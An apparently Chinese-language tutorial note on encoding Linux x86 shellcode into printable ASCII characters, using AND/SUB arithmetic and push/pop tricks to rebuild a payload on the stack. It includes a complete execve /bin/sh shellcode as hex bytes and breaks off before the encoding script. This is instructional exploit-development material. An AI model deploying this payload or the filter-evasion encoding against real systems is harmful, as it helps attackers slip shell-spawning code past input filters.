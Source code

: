 简介 : 
```
可打印字符
```
环境 : 
```
Linux x86
```
分析 : 
```
可打印的指令 : 
	and eax, [NUMBER]		
	sub eax, [NUMBER]
	push eax
	pop eax
	push esp
	pop esp
```
方法 : 
```
1. 使用 and 来清空 eax 
2. 在 eax 清空后 , 可以使用 sub 指令来将 eax 设置为任意值 (缠绕的思想)
3. 通过 (push eax , pop esp) 以及 (push esp , pop eax) 可以进行 esp 和 eax 之间的数据转移
4. 这样就可以首先将已经写好的一段 shellcode 使用第 1 步和第 2 步进行转换
5. 转换的结果当然都是可打印字符 , 这样编码完成后 , 我们就可以使用第 2 步来将真正的shellcode压入栈
6. 调整栈指针 , 让 shellcode 执行
```
可打印字符的特点 : 
```
ASCII 的范围是 32 - 127
也就是 : 
0010 0000 - 0111 1111
我们如何来使用只有 ASCII 的指令将 eax 清空呢 ? 
01010101 & 10101010 = 0
[I] & [0] = 0 (0x49, 0x30)
这样就可以达到清空的效果 , 当然这个也可以随意调整 , 只要能保证按位与之后为 0 即可
add eax, 49494949H
add eax, 30303030H
汇编之后的机器码为 : 
8048065:	25 49 49 49 49			and    $0x49494949,%eax
804806a:	25 30 30 30 30			and    $0x30303030,%eax
可以看到都是可打印字符 , 而且已经绕过了诸如 : * / \ 这样的特殊字符
```
一段正常的shellcode : 
```
\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\x99\xcd\x80
```
我们现在要使用 sub 指令来将 eax 一个一个调整为 shellcode 中的数据
然后再将其压到栈上
首先看第一个 : 
\x31\xc9\x51\x68
为了提高效率我们这里可能需要写一个脚本来进行运算

